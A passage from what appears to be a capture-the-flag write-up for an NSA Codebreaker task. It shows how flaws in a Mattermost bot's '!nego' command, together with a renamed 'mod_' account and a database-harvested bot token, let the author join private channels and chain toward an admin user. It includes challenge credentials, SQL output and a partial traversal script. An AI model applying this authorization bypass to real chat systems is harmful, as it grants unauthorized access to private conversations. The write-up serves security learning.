I named the container `codebreaker_pg`. Make sure that you correctly point to the content of the `postgresql/data` directory from volumes. For me, it was located at `~/comps/nsa-codebreaker/nsa-codebreaker-2025/task6/volumes/db/var/lib/postgresql/data`

Now, we can run the Mattermost server by running `/opt/mattermost/bin/mattermost`

#### Finally, we can start

The server should be running at `http://localhost:8065`

Navigating there lands us at a login screen


Well, we can login with the contents of the `user.txt` file

```
decimalpiglet81:yvMhOrAZSTgtqnAx
```

Username `decimalpiglet81` and password `yvMhOrAZSTgtqnAx`

Navigating to the team `MalwareCentral`, as the task prompt mentions, we can see that we only have access to one channel, which is `Public`


It appears that this is some sort of public channel with some other bad actors in it, but again as the prompt mentions, the "adversary", whoever they are, is not in this channel

We can actually try to see who our target is by going into the PostgreSQL database and looking at the `users` table. 

Based on said table, it would appear the user we are trying to get into a channel with is `admin_insecureapricots73`. They are the only user designated as an admin, or at the very least, the only user with "admin" in their username. So, how exactly do we go about doing that?

#### Robot Rock

It appears that the bad actors have some sort of custom bot, similar to a Discord bot

We can run it in the `volumes/bot` directory by running `bot.py`. You need to ensure that you have all the proper dependencies, as well as a correct `.env` file

```
BOT_TOKEN=7k49bgbcob83dkr1w69j916cmr
BOT_TEAM=malwarecentral
```

The `BOT_TOKEN` can be found in the Mattermost database in the `useraccesstokens` table

```sql
mattermost=# select * from useraccesstokens;
             id             |           token            |           userid           |   description    | isactive 
----------------------------+----------------------------+----------------------------+------------------+----------
 yaebn3n6ribqzph3qgthhf16pw | 7k49bgbcob83dkr1w69j916cmr | iyyjrrh6i7d37dkk5tg6wsupnw | Malbot API token | t
(1 row)
```

Now we can run the bot



Looking at the code of the bot, which is all in Python, it appears that some commands can only be ran if your username begins with `mod_` or `admin_`, with the below example showing the commands you can run that are defined in a file named `plugin_admin.py`

```python
from mmpy_bot import Plugin
from mmpy_bot.scheduler import schedule
from loguru import logger
from malware_database import db
from mmpy_bot.function import listen_to
import subprocess

class AdminPlugin(Plugin):
    """
    A plugin to handle administration utilities
    """

    @listen_to("^!util df", allowed_users_glob=["mod_*","admin_*"])
    def df_cmd(self, message ):
        logger.info(f"AdminPlugin: running df")
        result = subprocess.run(["df", "-h", "-x", "tmpfs"],capture_output=True, text=True)
        self.driver.reply_to(message, f"{result.stdout}")

    @listen_to("^!util uptime$", allowed_users_glob=["mod_*","admin_*"])
    def uptime_cmd(self, message):
        logger.info("AdminPlugin: running uptime")
        result = subprocess.run(["uptime"], capture_output=True, text=True)
        self.driver.reply_to(message, f"{result.stdout}")

    @listen_to("^!util free$", allowed_users_glob=["mod_*","admin_*"])
    def free_cmd(self, message):
        logger.info("AdminPlugin: running free -h")
        result = subprocess.run(["free", "-h"], capture_output=True, text=True)
        self.driver.reply_to(message, f"{result.stdout}")
```

Due to this, I rename our username to `mod_decimalpiglet81`

Now, I can successfully run these commands



It doesn't really look like this is going to get us anywhere though

After some more digging in the bot's code, we find a very interesting file named `plugin_sales.py` that defines some more commands

```python
from mmpy_bot_monkeypatch import *  # Ensure monkeypatch is applied before anything else
from mmpy_bot import Plugin, Message, listen_to
from malware_database import db
from loguru import logger

MALWARE_TYPES = ["0click", "1click", "LPE", "SBE", "RCE", "Phishing", "ExploitKit", "Backdoor", "Rootkit"]
OS_TYPES = ["Windows", "Linux", "macOS", "Android", "iOS", "Unix"]
ODAYS = ["0day", "nday"]

class SalesPlugin(Plugin):
    """
    A plugin to handle sales in Mattermost.
    """

    @listen_to('^!nego (.*)$', no_direct=True,human_description="!nego channel seller moderator1 moderator2\n\tCreate a negotiation channel to close a deal!")
    def handle_nego(self : Plugin, message: Message, *args):
        logger.debug(f"handle_nego called with message: {message.text}")
        args = message.text.strip().split()
        if len(args) != 5:
            self.driver.reply_to(message, "Usage: !nego channel seller moderator1 moderator2")
            logger.warning("handle_nego: Incorrect number of arguments")
            return
        user1 = message.sender_name
        _, channel_name, user2, user3, user4 = args[:6]
        if not user4.startswith('mod_'):
            self.driver.reply_to(message, f"You must have a mod")
            return
        display_name = channel_name
        team_name = self.driver.options.get('team', 'malwarecentral')
        print(f"[DEBUG] Looking up team: {team_name}")
        # Get team info
        team = self.driver.teams.get_team_by_name(team_name)
        logger.debug(f"Team API response: {team}")
        team_id = team.get('id') if isinstance(team, dict) else team.json().get('id')
        print(f"[DEBUG] team_id: {team_id}")
        # Create channel
        channel_options = {
            "team_id": team_id,
            "name": channel_name,
            "display_name": display_name,
            "type": "P"
        }
        logger.debug(f"Creating channel with options: {channel_options}")
        try:
            channel = self.driver.channels.create_channel(channel_options)
            print(f"[DEBUG] Channel API response: {channel}")
        #hide weird exception when we have an archived channel with the same name, we'll just unarchive it
        except Exception as e:
            print(f"[DEBUG] Exception while creating channel: {e}")
            # Try to unarchive the channel if it exists
            try:
                archived_channel = self.driver.channels.get_channel_by_name(channel_name, team_id)
                if archived_channel and archived_channel.get('delete_at') > 0:
                    logger.info(f"Unarchiving existing channel: {archived_channel}")
                    self.driver.channels.unarchive_channel(archived_channel.get('id'))
                    channel = archived_channel
            except Exception as e:
                self.driver.reply_to(message, f"Failed to create or unarchive channel: {e}")
        #we either created a new channel or unarchived an existing one
        print(f"[DEBUG] getting channel: {channel_name} in team {team_id}")
        channel = self.driver.channels.get_channel_by_name(team_id, channel_name)
        channel_id = channel.get('id') if isinstance(channel, dict) else channel.json().get('id')
        print(f"[DEBUG] channel_id: {channel_id}")
        # Get user ids
        user_ids = []
        for uname in [user1, user2, user3, user4]:
            logger.debug(f"Looking up user: {uname}")
            user = self.driver.users.get_user_by_username(uname)
            logger.debug(f"User API response: {user}")
            uid = user.get('id') if isinstance(user, dict) else user.json().get('id')
            logger.debug(f"user_id for {uname}: {uid}")
            if not uid:
                self.driver.reply_to(message, f"User not found: {uname}")
                logger.warning(f"handle_nego: User not found: {uname}")
                return
            user_ids.append(uid)
        if len(set(user_ids)) != 4:
            logger.warning(f"incorrect number of users to run command")
            self.driver.reply_to(message, f"incorrect number of users to run command")
            return
        print(f"[DEBUG] All user_ids: {user_ids}")

        # Check if channel already has members
        existing_members = self.driver.channels.get_channel_members(channel_id)
        existing_member_user_ids = [member.get('user_id') for member in existing_members]
        existing_user_ids = any(uid in user_ids for uid in existing_member_user_ids)
        if existing_user_ids:
            # If the channel already has members, we should not add them again
            # This is a safeguard against creating duplicate entries in an archived channel
            print(f"[DEBUG] Existing members in channel {channel_id}: {existing_member_user_ids}, this shouldn't happen! archived channels should be empty")
            return
        # make sure not adding randos
        current_members_ids = [m['user_id'] for m in self.driver.channels.get_channel_members(message.channel_id)]
        if not (user_ids[0] in current_members_ids and user_ids[1] in current_members_ids and
                user_ids[2] in current_members_ids and user_ids[3] in current_members_ids):
            self.driver.reply_to(message, f"Could not find users")
            return

        # Add users to channel
        for uid in user_ids:
            logger.debug(f"Adding user {uid} to channel {channel_id}")
            self.driver.channels.add_channel_member(channel_id, {"user_id": uid})
        self.driver.reply_to(message, f"Created channel '{display_name}' and added users: {user1}, {user2}, {user3}")
        logger.info(f"Created channel '{display_name}' and added users: {user1}, {user2}, {user3}")

    @listen_to('^!add_offering (.*)$', no_direct=True,allowed_users_glob=["mod_*"], human_description="!add_offering name type os oday_or_nday creator price\n\tAdd a new malware offering.")
    def add_offering_cmd(self, message: Message, *args):
        args = message.text.strip().split()
        logger.debug(f"add_offering_cmd called with args: {args}")
        if len(args) != 7:
            self.driver.reply_to(message, "Usage: !add_offering name type os oday_or_nday creator price")
            logger.warning("add_offering: Incorrect number of arguments")
            return
        _, name, mtype, osys, oday_nday, creator, price = args
        mtype_lc = mtype.lower()
        osys_lc = osys.lower()
        oday_nday_lc = oday_nday.lower()
        logger.debug(f"Normalized values: type={mtype_lc}, os={osys_lc}, oday_nday={oday_nday_lc}")
        if mtype_lc not in [t.lower() for t in MALWARE_TYPES]:
            self.driver.reply_to(message, f"Invalid malware type. Allowed: {', '.join(MALWARE_TYPES)}")
            logger.warning(f"add_offering: Invalid malware type '{mtype}'")
            return
        if osys_lc not in [o.lower() for o in OS_TYPES]:
            self.driver.reply_to(message, f"Invalid OS. Allowed: {', '.join(OS_TYPES)}")
            logger.warning(f"add_offering: Invalid OS '{osys}'")
            return
        if oday_nday_lc not in [d.lower() for d in ODAYS]:
            self.driver.reply_to(message, "oday_or_nday must be '0day' or 'nday'.")
            logger.warning(f"add_offering: Invalid oday_or_nday '{oday_nday}'")
            return
        team_name = self.driver.options.get('team', 'malwarecentral')
        team = self.driver.teams.get_team_by_name(team_name)
        team_id = team.get('id') if isinstance(team, dict) else team.json().get('id')
        user = self.driver.users.get_user_by_username(creator)
        if not user or (user.get('id') if isinstance(user, dict) else user.json().get('id')) is None:
            self.driver.reply_to(message, f"Creator '{creator}' is not a valid user in the team.")
            logger.warning(f"add_offering: Creator '{creator}' is not a valid user in the team.")
            return
        try:
            price_val = float(price)
            if price_val < 0:
                raise ValueError
        except ValueError:
            self.driver.reply_to(message, "Price must be a positive number.")
            logger.warning(f"add_offering: Invalid price '{price}'")
            return
        offering = {
            'name': name,
            'type': mtype_lc,
            'os': osys_lc,
            'oday_or_nday': oday_nday_lc,
            'creator': creator,
            'price': price_val
        }
        logger.info(f"Adding offering: {offering}")
        oid = db.add_offering(offering)
        self.driver.reply_to(message, f"Offering added with ID {oid}.")
        logger.info(f"Offering added with ID {oid}")

    @listen_to('^!get_offerings (.*)$', no_direct=True, human_description="!get_offerings\n\tList all malware offerings.")
    def get_offerings_cmd(self, message: Message, *args):
        logger.debug(f"get_offerings_cmd called with message: {message.text}")
        offerings = db.get_offerings()
        logger.debug(f"Offerings retrieved: {offerings}")
        if not offerings:
            self.driver.reply_to(message, "No offerings available.")
            logger.info("get_offerings_cmd: No offerings available.")
            return
        msg = "Malware Offerings:\n" + "\n".join([
            f"ID: {o['id']}, Name: {o['name']}, Type: {o['type']}, OS: {o['os']}, Oday/Nday: {o['oday_or_nday']}, Creator: {o['creator']}, Price: {o['price']}"
            for o in offerings
        ])
        self.driver.reply_to(message, msg)
        logger.info("get_offerings_cmd: Sent offerings list.")

    #TODO update these users to be other admins we expect to be listed within the team
    @listen_to('^!record_sale (.*)$', no_direct=True, allowed_users_glob=["mod_*"],human_description="!record_sale buyer price offering_id\n\tRecord a sale of malware.",allowed_users=["badguy","otherbadguy","some guys","user1"])
    def record_sale_cmd(self, message: Message, *args):
        logger.debug(f"record_sale_cmd called with message: {message.text}")
        args = message.text.strip().split()
        if len(args) != 4:
            self.driver.reply_to(message, "Usage: !record_sale buyer price offering_id")
            logger.warning("record_sale_cmd: Incorrect number of arguments")
            return
        _, buyer, price, offering_id = args
        # Validate buyer is a user in the team
        team_name = self.driver.options.get('team', 'malwarecentral')
        team = self.driver.teams.get_team_by_name(team_name)
        team_id = team.get('id') if isinstance(team, dict) else team.json().get('id')
        user = self.driver.users.get_user_by_username(buyer)
        if not user or (user.get('id') if isinstance(user, dict) else user.json().get('id')) is None:
            self.driver.reply_to(message, f"Buyer '{buyer}' is not a valid user in the team.")
            logger.warning(f"record_sale_cmd: Buyer '{buyer}' is not a valid user in the team.")
            return
        # Seller is the creator of the offering
        offerings = db.get_offerings()
        offering = next((o for o in offerings if str(o['id']) == offering_id), None)
        if not offering:
            self.driver.reply_to(message, f"Offering ID {offering_id} not found.")
            logger.warning(f"record_sale_cmd: Offering ID {offering_id} not found.")
            return
        seller = offering['creator']
        sale = {
            'buyer': buyer,
            'seller': seller,
            'price': price,
            'offering_id': offering_id
        }
        logger.info(f"Recording sale: {sale}")
        db.record_sale(sale)
        self.driver.reply_to(message, f"Sale recorded for offering ID {offering_id}.")
        logger.info(f"Sale recorded for offering ID {offering_id}")
```

Specifically, the `!nego` command is what's really interesting

```python
@listen_to('^!nego (.*)$', no_direct=True,human_description="!nego channel seller moderator1 moderator2\n\tCreate a negotiation channel to close a deal!")
    def handle_nego(self : Plugin, message: Message, *args):
        logger.debug(f"handle_nego called with message: {message.text}")
        args = message.text.strip().split()
        if len(args) != 5:
            self.driver.reply_to(message, "Usage: !nego channel seller moderator1 moderator2")
            logger.warning("handle_nego: Incorrect number of arguments")
            return
        user1 = message.sender_name
        _, channel_name, user2, user3, user4 = args[:6]
        if not user4.startswith('mod_'):
            self.driver.reply_to(message, f"You must have a mod")
            return
        display_name = channel_name
        team_name = self.driver.options.get('team', 'malwarecentral')
        print(f"[DEBUG] Looking up team: {team_name}")
        # Get team info
        team = self.driver.teams.get_team_by_name(team_name)
        logger.debug(f"Team API response: {team}")
        team_id = team.get('id') if isinstance(team, dict) else team.json().get('id')
        print(f"[DEBUG] team_id: {team_id}")
        # Create channel
        channel_options = {
            "team_id": team_id,
            "name": channel_name,
            "display_name": display_name,
            "type": "P"
        }
        logger.debug(f"Creating channel with options: {channel_options}")
        try:
            channel = self.driver.channels.create_channel(channel_options)
            print(f"[DEBUG] Channel API response: {channel}")
        #hide weird exception when we have an archived channel with the same name, we'll just unarchive it
        except Exception as e:
            print(f"[DEBUG] Exception while creating channel: {e}")
            # Try to unarchive the channel if it exists
            try:
                archived_channel = self.driver.channels.get_channel_by_name(channel_name, team_id)
                if archived_channel and archived_channel.get('delete_at') > 0:
                    logger.info(f"Unarchiving existing channel: {archived_channel}")
                    self.driver.channels.unarchive_channel(archived_channel.get('id'))
                    channel = archived_channel
            except Exception as e:
                self.driver.reply_to(message, f"Failed to create or unarchive channel: {e}")
        #we either created a new channel or unarchived an existing one
        print(f"[DEBUG] getting channel: {channel_name} in team {team_id}")
        channel = self.driver.channels.get_channel_by_name(team_id, channel_name)
        channel_id = channel.get('id') if isinstance(channel, dict) else channel.json().get('id')
        print(f"[DEBUG] channel_id: {channel_id}")
        # Get user ids
        user_ids = []
        for uname in [user1, user2, user3, user4]:
            logger.debug(f"Looking up user: {uname}")
            user = self.driver.users.get_user_by_username(uname)
            logger.debug(f"User API response: {user}")
            uid = user.get('id') if isinstance(user, dict) else user.json().get('id')
            logger.debug(f"user_id for {uname}: {uid}")
            if not uid:
                self.driver.reply_to(message, f"User not found: {uname}")
                logger.warning(f"handle_nego: User not found: {uname}")
                return
            user_ids.append(uid)
        if len(set(user_ids)) != 4:
            logger.warning(f"incorrect number of users to run command")
            self.driver.reply_to(message, f"incorrect number of users to run command")
            return
        print(f"[DEBUG] All user_ids: {user_ids}")

        # Check if channel already has members
        existing_members = self.driver.channels.get_channel_members(channel_id)
        existing_member_user_ids = [member.get('user_id') for member in existing_members]
        existing_user_ids = any(uid in user_ids for uid in existing_member_user_ids)
        if existing_user_ids:
            # If the channel already has members, we should not add them again
            # This is a safeguard against creating duplicate entries in an archived channel
            print(f"[DEBUG] Existing members in channel {channel_id}: {existing_member_user_ids}, this shouldn't happen! archived channels should be empty")
            return
        # make sure not adding randos
        current_members_ids = [m['user_id'] for m in self.driver.channels.get_channel_members(message.channel_id)]
        if not (user_ids[0] in current_members_ids and user_ids[1] in current_members_ids and
                user_ids[2] in current_members_ids and user_ids[3] in current_members_ids):
            self.driver.reply_to(message, f"Could not find users")
            return

        # Add users to channel
        for uid in user_ids:
            logger.debug(f"Adding user {uid} to channel {channel_id}")
            self.driver.channels.add_channel_member(channel_id, {"user_id": uid})
        self.driver.reply_to(message, f"Created channel '{display_name}' and added users: {user1}, {user2}, {user3}")
        logger.info(f"Created channel '{display_name}' and added users: {user1}, {user2}, {user3}")
```

This creates a channel, consisting of you, a seller user, another user, with the last user required to be a mod. 

```python
user1 = message.sender_name
_, channel_name, user2, user3, user4 = args[:6]
if not user4.startswith('mod_'):
    self.driver.reply_to(message, f"You must have a mod")
    return
```

However if we look at this code, it appears to be able to add users to archived channels, or in other words, channels that already exist. However, if the channel already exists and *isn't* archived (still active), it doesn't care and fetches the channel anyway

```python
except Exception as e:
            print(f"[DEBUG] Exception while creating channel: {e}")
            # Try to unarchive the channel if it exists
            try:
                archived_channel = self.driver.channels.get_channel_by_name(channel_name, team_id)
                if archived_channel and archived_channel.get('delete_at') > 0:
                    logger.info(f"Unarchiving existing channel: {archived_channel}")
                    self.driver.channels.unarchive_channel(archived_channel.get('id'))
                    channel = archived_channel
            except Exception as e:
                self.driver.reply_to(message, f"Failed to create or unarchive channel: {e}")
        #we either created a new channel or unarchived an existing one
        print(f"[DEBUG] getting channel: {channel_name} in team {team_id}")
        channel = self.driver.channels.get_channel_by_name(team_id, channel_name)
        channel_id = channel.get('id') if isinstance(channel, dict) else channel.json().get('id')
        print(f"[DEBUG] channel_id: {channel_id}")
```

This appears to be a pretty big flaw. That means that we can add users and ourselves to any channel, not just non-existent or archived channels. 

The only requirement to do so is that the 3 users you try to run the `!nego` command with (the 2 users and the mod) cannot be in the channel you are trying to add everyone to. 

```python
existing_members = self.driver.channels.get_channel_members(channel_id)
existing_member_user_ids = [member.get('user_id') for member in existing_members]
existing_user_ids = any(uid in user_ids for uid in existing_member_user_ids)
if existing_user_ids:
    # If the channel already has members, we should not add them again
    print(f"[DEBUG] Existing members in channel {channel_id}: {existing_member_user_ids}, this shouldn't happen! archived channels should be empty")
    return
```

This appears to be another flaw! It seems that the intent was that if a channel isn't empty it shouldn't add any users at all, but it appears that just as long as all users you want to add aren't in the target channel, it'll work and add everyone to it. 

This `!nego` command seems to be our method of traversing channels. Beginning from the `Public` channel, we have to find 3 users in the current channel (with 1 of them being a mod) who are not in the target channel we want to get to, run the `!nego` command to gain access to that channel, and then continuously do this until we reach a channel that has `admin_insecureapricots73` in it. 

We can write a Python script that can automate doing this. Firstly though, we need a list of all users and their user IDs, as well as a list of every channel and the users within said channels. 

We can do this through some SQL commands:

We can get the user IDs of all users in each channel by running this query on every channel

```sql
mattermost=# SELECT u.username, u.id AS user_id
FROM channels c
JOIN channelmembers cm ON cm.channelid = c.id
JOIN users u ON u.id = cm.userid
WHERE c.displayname = 'Public';
      username       |          user_id           
---------------------+----------------------------
 enragedcaviar56     | 1w36wtpq4tfhiqe7xdm6igx84o
 grumpyrhino73       | bh87wmq4qfdmdbafhohpy6mq6h
 sadchowder88        | cw41xr7ydfnsjdfwqr9a7agtxr
 selfishjaguar50     | dzkurn8put8udqwrij98u4s94w
 chicteal95          | g4tp7dewfjgziph3exxjzbrhwy
 malbot              | iyyjrrh6i7d37dkk5tg6wsupnw
 euphoricraisins54   | o91awst7w3fidn58ry4cp3r4xh
 mod_decimalpiglet81 | rwagbspan7rxppfgrxjbcz4ore
 mod_needyboa0       | tosbendf6idnpc7egyw5wfau9h
(9 rows)
```

We can find all the channel display names by just running `SELECT displayname FROM channels;`

To get all users and their IDs, we can just run 

```sql
SELECT id, username FROM public.users;
```
Now we can start making that Python script

#### Actually Crossing the Channel

Our script below performs a BFS like traversal to try to move from one channel to another until it reaches one that contains the `admin_insecureapricots73` user, whose user ID is `rnqpjyd5mtnszfgpzkjguu18zo`, starting of course from the `Public` channel

```python
# Found from database
users = {
    "6k4nf8umejr7zfqfityfhtn9tw": "mod_lyingdoves52",
    "h64obyji93n75dcwwy4xfarcno": "mod_mercifulsausage42",
    "5tohie4px3nmipga8maq7koqny": "mod_amazedcamel5",
    "tosbendf6idnpc7egyw5wfau9h": "mod_needyboa0",
    "rnqpjyd5mtnszfgpzkjguu18zo": "admin_insecureapricots73",
    "bh87wmq4qfdmdbafhohpy6mq6h": "grumpyrhino73",
    "g4tp7dewfjgziph3exxjzbrhwy": "chicteal95",
    "1w36wtpq4tfhiqe7xdm6igx84o": "enragedcaviar56",
    "tdzdyadzhfdt3nqto9dan3xtia": "mod_excitedburritos53",
    "1xk1z5t3b3ggzeg4xrq3dyiyky": "needypup16",
    "o91awst7w3fidn58ry4cp3r4xh": "euphoricraisins54",
    "cw41xr7ydfnsjdfwqr9a7agtxr": "sadchowder88",
    "w5zjeekxpjfa3kzpzpw4mmzp1y": "sorecamel84",
    "hbo689966irppefi37oafo3tca": "wingedmandrill37",
    "iyyjrrh6i7d37dkk5tg6wsupnw": "malbot",
    "dzkurn8put8udqwrij98u4s94w": "selfishjaguar50",
    "w5sps8fbc7n1jk8bt88fkxs3ee": "mod_gloomyhyena90",
    "hypxe7jik7bjx881onw9of1nbe": "ardentpup59",
    "7exwwxmzfjgoxqtswc14b8qz6h": "system-bot",
    "rwagbspan7rxppfgrxjbcz4ore": "mod_decimalpiglet81",
}

# Found from database
channels = {

    "public" : ["rwagbspan7rxppfgrxjbcz4ore", "g4tp7dewfjgziph3exxjzbrhwy","1w36wtpq4tfhiqe7xdm6igx84o", 
    "tosbendf6idnpc7egyw5wfau9h", "o91awst7w3fidn58ry4cp3r4xh", "bh87wmq4qfdmdbafhohpy6mq6h", "iyyjrrh6i7d37dkk5tg6wsupnw",
    "cw41xr7ydfnsjdfwqr9a7agtxr", "dzkurn8put8udqwrij98u4s94w"],

    "channel15511" : ['1xk1z5t3b3ggzeg4xrq3dyiyky', 'bh87wmq4qfdmdbafhohpy6mq6h', 
    '1w36wtpq4tfhiqe7xdm6igx84o', 'g4tp7dewfjgziph3exxjzbrhwy', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'dzkurn8put8udqwrij98u4s94w', 'h64obyji93n75dcwwy4xfarcno', 
    'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 
    'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 
    'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel17991" : ['o91awst7w3fidn58ry4cp3r4xh', 'w5zjeekxpjfa3kzpzpw4mmzp1y', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'tdzdyadzhfdt3nqto9dan3xtia', 
    'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'bh87wmq4qfdmdbafhohpy6mq6h', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel28200" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', '5tohie4px3nmipga8maq7koqny', 
    'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'h64obyji93n75dcwwy4xfarcno', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 
    'hbo689966irppefi37oafo3tca', '1xk1z5t3b3ggzeg4xrq3dyiyky', '6k4nf8umejr7zfqfityfhtn9tw', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel29721" : ['o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', 
    'h64obyji93n75dcwwy4xfarcno', '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'tdzdyadzhfdt3nqto9dan3xtia', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'hypxe7jik7bjx881onw9of1nbe', 
    'bh87wmq4qfdmdbafhohpy6mq6h', 'tosbendf6idnpc7egyw5wfau9h', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel33529" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', 
    'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'tosbendf6idnpc7egyw5wfau9h', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'w5sps8fbc7n1jk8bt88fkxs3ee', '1w36wtpq4tfhiqe7xdm6igx84o', '1xk1z5t3b3ggzeg4xrq3dyiyky', 
    '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel33768" : ['g4tp7dewfjgziph3exxjzbrhwy', '6k4nf8umejr7zfqfityfhtn9tw', '1w36wtpq4tfhiqe7xdm6igx84o', '1xk1z5t3b3ggzeg4xrq3dyiyky', 
    '5tohie4px3nmipga8maq7koqny', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'h64obyji93n75dcwwy4xfarcno', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 
    'bh87wmq4qfdmdbafhohpy6mq6h', 'rnqpjyd5mtnszfgpzkjguu18zo', 'iyyjrrh6i7d37dkk5tg6wsupnw', 'o91awst7w3fidn58ry4cp3r4xh'],

    "channel35869" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel40085" : ['o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', '1xk1z5t3b3ggzeg4xrq3dyiyky', 
    '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 
    'g4tp7dewfjgziph3exxjzbrhwy', 'hbo689966irppefi37oafo3tca', 'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 
    'w5sps8fbc7n1jk8bt88fkxs3ee', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 'bh87wmq4qfdmdbafhohpy6mq6h', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel41385" : ['o91awst7w3fidn58ry4cp3r4xh', 'bh87wmq4qfdmdbafhohpy6mq6h', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'g4tp7dewfjgziph3exxjzbrhwy', 
    'cw41xr7ydfnsjdfwqr9a7agtxr', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel48553" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'hypxe7jik7bjx881onw9of1nbe', 
    'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel50056" : ['6k4nf8umejr7zfqfityfhtn9tw', '1xk1z5t3b3ggzeg4xrq3dyiyky', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '5tohie4px3nmipga8maq7koqny', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 
